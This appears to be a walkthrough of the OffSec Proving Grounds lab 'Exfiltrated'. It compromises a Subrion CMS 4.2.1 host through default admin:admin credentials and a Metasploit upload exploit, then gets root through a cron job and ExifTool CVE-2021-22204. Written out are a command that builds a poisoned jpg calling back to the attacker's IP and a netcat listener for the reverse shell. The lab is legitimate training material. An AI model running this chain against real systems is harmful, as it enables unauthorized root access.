

# Exfiltrated — OffSec Proving Grounds Walkthrough

**Platform:** Proving Grounds Practice
**Difficulty:** Intermediate
**OS:** Linux

---

## TL;DR

Subrion CMS 4.2.1 with default creds → file upload RCE via Metasploit → cron job running exiftool on uploaded images → CVE-2021-22204 exiftool RCE → root shell.

---

## Enumeration

Starting with a full nmap scan:

```bash
nmap -sV -p- 192.168.236.163
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 8.2p1 Ubuntu |
| 80 | HTTP | Apache httpd 2.4.41 |

Only two ports — SSH and a web server. Let's check port 80:

```bash
curl -v http://192.168.236.163
```

The response includes a `302 redirect` to `http://exfiltrated.offsec/`. Classic virtual host situation — let's add it to `/etc/hosts`:

```bash
echo "192.168.236.163 exfiltrated.offsec" >> /etc/hosts
```

Now we can visit the site. After some poking around, we find it's running **Subrion CMS version 4.2.1**. Tried the default credentials `admin:admin` on the panel and... they work. Great password policy.

---

## Initial Foothold — Subrion CMS File Upload RCE

Searching Metasploit for Subrion exploits, we find:

```
exploit/multi/http/subrion_cms_file_upload_rce
```

Set it up with the target info and fire away — we get a **web shell** on the machine. Let's upgrade to a proper reverse shell and start enumerating.

After uploading and running **linpeas**, we spot something interesting:



There's a **cron job running every minute**. Let's look at the script:

```bash
cat /opt/image-exif.sh
```

```bash
#!/bin/bash
# 07/06/18 A BASH script to collect EXIF metadata

IMAGES='/var/www/html/subrion/uploads'
META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

ls $IMAGES | grep "jpg" | while read filename;
do
    exiftool "$IMAGES/$filename" >> $LOGFILE
done
```

So every minute, this script:
1. Looks for `.jpg` files in the Subrion uploads directory (which we control)
2. Runs `exiftool` on each one

---

## Privilege Escalation — ExifTool CVE-2021-22204

Let's check the exiftool version on the system:

```bash
exiftool -ver
# 11.88
```

Version 11.88 — that's vulnerable to **CVE-2021-22204**, which affects ExifTool versions 12.33 and below. This is an arbitrary code execution vulnerability triggered by processing a maliciously crafted image file.


Here's the attack:

1. Download a random `.jpg` file and weaponize it with the exploit (EDB-50911):

```bash
python3 50911.py -s 192.168.45.176 6969 -i pwn.jpg
```

2. Transfer the poisoned image to `/var/www/html/subrion/uploads` on the target.

3. Start a netcat listener and wait for the cron job to fire:

```bash
nc -lvnp 6969
```

Within a minute, the cron job picks up our malicious image, exiftool processes it, and we catch a **root shell**. 🎉

---

## Key Takeaways

- **Default credentials** are always worth trying — `admin:admin` got us in the door here
- **Cron jobs** are a goldmine for privilege escalation — always check what's running periodically with `linpeas` or `pspy`
- **CVE-2021-22204** (ExifTool RCE) is a nasty one — if you control files that exiftool processes, you can get code execution
- The attack chain here is beautiful: controlled upload directory + cron job + vulnerable exiftool = root

---

*Thanks for reading! Follow for more OffSec walkthrough content.*
